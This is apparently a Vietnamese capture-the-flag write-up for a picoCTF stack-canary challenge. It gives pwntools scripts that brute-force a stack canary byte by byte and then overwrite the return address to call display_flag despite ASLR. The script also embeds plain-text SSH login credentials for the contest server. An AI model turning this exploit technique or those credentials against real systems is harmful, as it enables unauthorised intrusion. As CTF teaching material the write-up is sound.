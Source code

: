 # Problem
## Canary
### Bài này là một dạng bài có gắn thêm canary để detect stack bị overflow.
### Chương trình cho phép chúng ta nhập độ dài chuỗi muốn nhập và nhập vào. Trong chương trình còn có function display_flag. có thể đoán được đây là function quan trọng dùng để in ra flag cho mình.

# Solution
## Bài này có cho Hint như sau: 
`Maybe there's a smart way to brute-force the canary?`
### Để giải quyết bài này chúng ta cần biết:
* Canary, vị trí nằm trong Stack
* offset và địa chỉ của hàm display_flag

Đầu tiên là tìm Canary:
Chúng ta sẽ dùng 1 chương trình `BruteForce cực mạnh` để lấy được Canary như sau:
```sh
from pwn import *
#offset -> ret : 52
sss = ssh(host = "2019shell1.picoctf.com",user= 'hazir',password ='2k4')

canary = ''
len_canary = 0
len = 33 #(32 + them 1 thang de bruteforce)
pl = "a"*32 #(Độ dài trước canary trong stack)
while len_canary < 4:
	value = 1
	while value < 256:
		s = sss.run("cd /problems/canary_5_f37171114d0d9fc71194842bb8b7bb34; ./vuln")
		#s = process("./vuln")
		len_tmp = len + len_canary
		s.sendline(str(len_tmp))
		s.sendline(pl +  chr(value))
		ret = s.recvall()
		log.info("ret >>> " + str(ret))
		if "Stack Smashing Detected" not in ret:
			pl= pl + chr(value)
			canary += chr(value)
			len_canary += 1
			break;
		s.close()
		value+=1
log.info("canary >> " + canary)
```

Sau khi chạy thì ta sẽ được canary là: `lV!)`

Sau đó chúng ta sẽ dùng brute force 1 lần nữa để lấy flag từ function display_flag.  Do trên server có dùng ASLR( Address Space Layout Randomize ) nên chúng ta sẽ dùng Brute thêm 1 lần nữa.

```sh
while True:
	s = sss.run("cd /problems/canary_5_f37171114d0d9fc71194842bb8b7bb34; ./vuln")
	#s = process("./vuln")
	#canary_local = 'ABCD'
	#pause()
	s.sendline("56")  # offset từ buffer đến ret
	pl = "a"*32 + canary + "a"*16 + p32(0x565557ed)
	s.sendline(pl)
	ret = s.recvall()
	log.info("ret >> " + ret)
	if "pico" in ret:
		break
```
Run chương trình lên, tùy vào nhân phẩm mà thời gian đợi sẽ lâu hay chậm. Nhưng cuối cùng thì flag vẫn phải có thôi. :3

`FLAG:` 